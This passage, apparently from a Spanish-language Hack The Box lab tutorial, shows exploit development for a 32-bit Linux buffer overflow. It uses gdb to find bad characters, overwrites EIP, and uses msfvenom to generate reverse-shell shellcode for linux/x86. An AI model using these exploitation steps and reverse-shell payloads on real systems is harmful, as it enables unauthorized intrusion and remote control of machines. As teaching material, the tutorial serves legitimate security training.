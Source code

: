 Aquí depende del orden correcto de nuestros bytes en la variable `CHARS`para ver si algún carácter cambia, interrumpe o se salta el orden. Ahora reconocemos que después del " `\x08`", encontramos el " `\x00`" en lugar del " `\x09`" como se esperaba. Esto nos indica que este carácter no está permitido aquí y debe eliminarse en consecuencia.

```shell-session
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```

```shell-session
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
												 # |----| <- "\x0a" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```

Este proceso debe repetirse hasta eliminar todos los caracteres que podrían interrumpir el flujo.

## Generating Shellcode

#### MSFvenom Syntax

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```

```shell-session
0xRh4ps00dy@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
```
